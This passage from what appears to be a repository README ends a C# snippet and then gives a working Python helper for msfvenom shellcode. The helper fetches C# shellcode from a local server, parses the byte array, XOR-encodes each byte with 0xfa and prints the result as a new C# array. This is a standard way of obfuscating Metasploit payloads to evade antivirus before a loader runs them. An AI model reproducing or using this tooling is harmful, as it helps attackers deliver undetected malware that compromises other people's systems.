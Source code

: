 ```csharp
                Console.WriteLine($"Error reading file: {ex.Message}");
            }
        }
    }
}
```

#### Python

`python helper.py <msfvenom-generated csharp shellcode file>`

```python
import sys
import requests
import re

def main():
    # Check if the correct number of command-line arguments is provided
    if len(sys.argv) != 2:
        print("Please provide filename as command-line arguments.")
        return

    url = f"http://127.0.0.1/{sys.argv[1]}"

    try:
        # Download the file content as a string directly into memory
        response = requests.get(url)
        response.raise_for_status()  # Raise an error for bad responses
        declaration = response.text.strip()

        # Use a regex to extract the byte values
        match = re.search(r'new byte\[\d+\] \{(.*?)\};', declaration, re.DOTALL)

        if match:
            byte_values = match.group(1)
            hex_array = byte_values.split(',')

            # Create the byte array with the dynamic size based on the number of hex values
            buf = bytearray()

            for hex_value in hex_array:
                # Convert each hex string to a byte
                buf.append(int(hex_value.strip(), 16))

            # Encode the bytes
            encoded = bytearray((b ^ 0xfa) for b in buf)

            hex_representation = ', '.join(f"0x{b:02x}" for b in encoded)
            print(f"byte[] buf = new byte[{len(buf)}] {{{hex_representation}}};")
        else:
            print("The file does not contain a valid byte array declaration.")
    except Exception as ex:
        print(f"Error reading file: {ex}")

if __name__ == "__main__":
    main()
```
